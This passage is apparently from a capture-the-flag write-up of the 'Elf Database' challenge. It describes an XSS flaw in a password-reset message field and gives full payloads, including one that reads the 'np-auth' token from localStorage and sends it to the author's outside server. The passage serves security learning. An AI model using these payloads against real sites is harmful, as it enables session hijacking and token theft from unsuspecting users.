 **The GreatBookPage7.pdf file describes "The Witches of Oz"**

# Elf Database
The final challenge was the most challenging and fun to solve IMO. It started at a login page at http://edb.northpolechristmastown.com/home.html and some hints from Wunorse Openslae about XSS, Json Web Tokens, and LDAP Injection.

## Part 1 - XSS
The first thing I set about doing was to discover the hinted-at XSS vulnerabilty. There was a password reset functionality that allowed custom messages to be sent. I sent my favorite XSS payload (short and sweet):

```
<svg/onload=alert(1)>
```

And it worked!

![EDB XSS 1](/images/2018/01/edb_xss_1.png)

Now that I had a PoC working, I needed to come up with a way to hijack a valid session and bypass the login page. At first it seemed obvious to me that since the SESSOIN cookie was missing the HttpOnly flag that I could just steal the session cookie of a logged in user and re-use it. But looking closer at the source code on the login page, I realized that authentication *actually* relied on something called "np-auth":

![EDB Login Source](/images/2018/01/edb_login_source.png)

This code first checked for the existence of *any* cookie. If a cookie existed, it then pulled a value from browser localStorage called "np-auth" and POSTed it to "/login" (if it existed). I was able to verify this by setting a dummy value in localStorage through the browser's developer console (`localStorage.setItem("np-auth", "foobar")`) and saw the POST request and response in Burp:

![EDB Post Auth Foobar](/images/2018/01/edb_post_auth.png)

So in order to hijack a session, I needed my XSS payload to steal the logged in user's "np-auth" token from browser localStorage, then send it back to me somehow. This is easy to accomplish all in JS, and the easiest way to send it to myself is just through a URL parameter. I constructed a XSS payload that executed the following JS snippet:

```js
window.location='http://foobar.ropnop.com/cookie?auth='+localStorage.getItem('np-auth')
```

This would redirect the browser to a URL containing the complete value of "np-auth" and I could see it in my request logs. My final XSS payload looked like this:

```
hello+<svg/onload="window.location='http://foobar.ropnop.com/cookie?auth='%2blocalStorage.getItem('np-auth')">
```
I sent this in a password request message and caught the auth-token in a GET request to my VPS:

![np-auth in request](/images/2018/01/edb_npauth_request.png)
